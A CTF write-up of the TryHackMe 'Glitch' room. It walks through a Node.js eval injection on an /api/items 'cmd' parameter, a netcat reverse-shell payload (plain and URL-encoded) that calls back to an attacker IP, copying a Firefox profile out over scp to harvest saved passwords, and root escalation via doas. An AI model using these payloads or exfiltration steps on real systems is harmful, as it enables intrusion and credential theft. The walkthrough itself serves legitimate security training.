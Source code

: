 ![GLITCH ROOM LOGO](./img/GLITCH.jpeg)
# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   ![Port 80](./img/site1.jpg)
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```

We can run the getAccess() function through the browser by console tab or browsing to \<machine ip>/api/access

![](./img/Console.jpg)

By decoding, we will get the original token and we should set that in our cookie

![Session cookie](./img/session.jpg)

## [Q3] What is the content of user.txt?
Now let's refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at source and linked [JS](./src/script.js) file, I figured out that there are serveral links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :
![/api/items](./img/items.jpg)

There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So we can fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe we can get rce by nodejs eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, We must encode the payload as URL and then we're good to go:

    └─$ curl -X POST <Machine IP>/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

We have shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now let's check firefox hidden directory by sending that to our attack machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your Attacker machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in your attacker machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open firefox browser and you can head to saved passwords

![void pass](./img/firefox.jpg)

Now with linPEAS output and saved password in firefox for v0id we can see /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}
